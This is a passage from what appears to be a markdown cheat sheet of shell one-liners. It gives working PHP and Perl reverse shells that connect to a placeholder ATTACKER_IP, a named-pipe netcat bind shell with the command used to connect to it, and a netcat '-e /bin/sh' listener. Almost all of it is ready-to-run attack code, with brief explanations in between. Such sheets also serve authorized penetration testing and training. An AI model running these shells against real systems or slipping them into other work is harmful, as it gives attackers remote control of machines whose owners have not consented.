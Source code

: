 ## PHP Reverse Shell
Useful for web shells in PHP applications.

```php
<?php
$sock=fsockopen("ATTACKER_IP",ATTACKER_PORT);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

## Perl Reverse Shell
A lightweight alternative for Unix-based targets.

```perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
---
## ***Bind Shells***

A **bind shell** is a type of shell that listens on a specific port for incoming connections. Once an attacker connects to this port, they gain control over the target system. Unlike a reverse shell, where the target connects back to the attacker, a bind shell requires the attacker to initiate the connection.

# Types of Bind Shells

## Pipe Bind Shell

```bash
rm -f /tmp/bindpipe; mkfifo /tmp/bindpipe; cat /tmp/bindpipe | sh -i 2>&1 | nc -l 0.0.0.0 8080 >/tmp/bindpipe 
```
### Connect to bind shell:

```bash
nc -nv TARGET_IP 8080
```

## TCP Bind Shell
A **TCP bind shell** listens on a designated TCP port, allowing an attacker to connect and execute commands remotely.

**Example (Netcat Linux):**
```bash
nc -lvp 4444 -e /bin/sh
```

